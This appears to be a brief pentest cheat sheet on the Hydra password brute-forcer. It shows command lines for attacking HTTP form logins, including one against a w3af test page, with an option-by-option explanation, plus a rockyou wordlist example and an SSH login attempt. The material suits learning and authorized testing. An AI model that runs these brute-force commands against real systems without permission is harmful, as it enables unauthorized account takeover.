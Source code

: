 # Hydra

---



Hydra Password Bruteforce

```bash
hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
```

**Good to clone github "seclists" for this**

```bash
apt -y install seclists
```



 Explanation:

```
Host = 192.168.1.69
Method = http-form-post
URL = /w3af/bruteforce/form_login/dataReceptor.php
Form parameters = user=^USER^&pass=^PASS^
Failure response = Bad login
Users file = users.txt
Password file = pass.txt
Threads = -t 10
Wait for timeout = -w 30
Output file = -o hydra-http-post-attack.txt
```

Other example

```bash
hydra 111.11.111.11 http-form-post "/:password=^PASS^:Invalid" -P /usr/share/wordlists/rockyou.txt -l user -t 10 -s 42616 -v
```

This attacks the ip address on port 42616



## SSH

~~~bash
hydra -l username -p password ssh 1.1.1.1:1234
~~~

